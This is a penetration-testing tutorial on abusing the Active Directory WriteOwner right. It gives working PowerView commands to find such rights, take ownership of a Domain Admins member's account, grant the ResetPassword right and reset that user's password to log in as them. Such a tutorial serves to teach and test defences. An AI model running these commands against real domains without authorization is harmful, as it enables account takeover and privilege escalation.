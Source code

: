 ```yaml
---
title:  WriteOwner On User
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, Active Directory]
tags: [infrastructure, pentesting, services, active directory, acl, writeowner, privilege escalation]     # TAG names should always be lowercase
---
```


# WriteOwner

***WriteOwner*** : Is a permission that allows you to change ownership of an object. If you have *WriteOwner* on user object, you can make yourself the owner of that user, and if you have ownership on user object, you can give yourself a right i.e `Resetpassword` that will allow you to reset user's password, thereby escalating your privileges.

# Enumeration

## PowerView

### WriteOwner Enumeration 

Get your current user's sid by executing `whoami /user`, import powerview, then execute the below command to get the list of objects on which you have *WriteOwner* right.

Command
```powershell

get-objectacl -resolveguids | ? {($_.securityidentifier -eq "[your_current_user_sid]") -and ($_.activedirectoryrights -like "*WriteOwner*")}

```

*below image shows the current user `usman` has WriteOwner right on user object `ali`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserwriteownerenum1.png)

### User Enumeration

Execute the below command to get more information about the target user.

Command

```powershell

get-netuser [target_user]

```
*below image shows the target user `ali` is a member of `Domain Admins`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallenum2.png)

## BloodHound

You can also get thesame result using bloodhound.

*below image shows the current user `usman` has WriteOwner right on user object `ali` who is a member of `Domain Admins`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserwriteowner.png)

# Exploitation

## PowerView

### Change Ownership Of User

Execute the below command to give yourself ownership on the target user `ali`.

Command

```powershell

set-domainobjectowner -Identity [target_user] -OwnerIdentity [Your Current User]

```
![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserwriteownerenum2.png)

You can verify it using bloodhound

*below image shows user `usman` is owner of user `ali`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserwriteownerb.png)

You can verify it from server manager

*below image shows user `usman` is owner of user `ali`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserwriteownerenum3.png)

### Give Resetpassword Right

Since you are the owner of the user `ali`, you can execute the below command to give yourself `Resetpassword` right on the user.

Command

```powershell

add-domainobjectacl -TargetIdentity [target_user] -PrincipalIdentity [Your Current User] -Rights Resetpassword

```
You can verify it using the below command.

Command

```powershell

get-objectacl -resolveguids | ? {$_.securityidentifier -eq "[your_current_user_sid]"}

```

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserwriteownerenum4.png)

### Reset Password

With `resetpassword` right given, you can reset his password and login to his account by executing the below command

Command

```powershell

$pass = ConvertTo-SecureString '[Your New Password Here]' -AsPlainText -Force
set-domainuserpassword -identity [target_user] -accountpassword $pass 
runas /user:[domain\user] cmd.exe
```

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallenum3.png)

# References

- [https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2](https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
